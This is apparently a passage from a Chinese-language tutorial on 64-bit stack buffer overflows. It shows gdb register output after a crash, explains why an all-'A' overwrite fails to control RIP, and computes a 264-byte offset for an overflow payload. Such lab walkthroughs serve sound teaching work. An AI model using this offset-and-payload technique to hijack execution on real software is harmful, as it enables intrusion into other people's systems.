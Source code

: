 好极了我们有SIGSEGV的时机去查看当前寄存器的值。

```
(gdb) i r 
rax     0x0     0 
rbx     0x0     0 
rcx     0xffffffffffffffff  -1  
rdx     0x7ffff7dd59e0 140737351866848 
rsi     0x7ffff7ff7000 140737354100736 
rdi     0x1     1 
rbp     0x4141414141414141 0x4141414141414141 
rsp     0x7fffffffdd98  0x7fffffffdd98 
r8      0x4141414141414141 4702111234474983745 
r9      0x4141414141414141 4702111234474983745 
r10     0x4141414141414141 4702111234474983745 
r11     0x246 582 
r12     0x400520 4195616 
r13     0x7fffffffde70 140737488346736 
r14     0x0     0 
r15     0x0     0 
rip     0x400686 0x400686 <main+121> 
eflags  0x10246  [ PF ZF IF RF ] 
cs      0x33    51 
ss      0x2b    43 
ds      0x0     0 
es      0x0     0 
fs      0x0     0 
gs      0x0     0 

(gdb) stepi 
Program terminated with signal SIGSEGV, Segmentation fault. 
The program no longer exists. 

```

好了程序就这样结束了我们没能控制RIP为什么因为我们覆盖了太多位记得最大的地址是0x00007fffffffffff吧而我们尝试用0x4141414141414141去溢出了。

0x04 控制RIP
----------

* * *

我们发现了个小问题不过只要是问题总有办法解决的我们可以用个小一点的缓冲区去溢出这样指向rsp的地址就会像0x0000414141414141一样了。 通过简单的数学运算就可以很轻松地算出我们缓冲区的大小。我们知道缓冲区开始于0x7fffffffdc90。Leave指令之后rsp将指向0x7fffffffdd98。

```
0x7fffffffdd98 - 0x7fffffffdc90 = 0x108 -> 十进制的264

```

知道了这些我们可以把溢出载荷修改成这样

```
"A" * 264 + "B" * 6

```

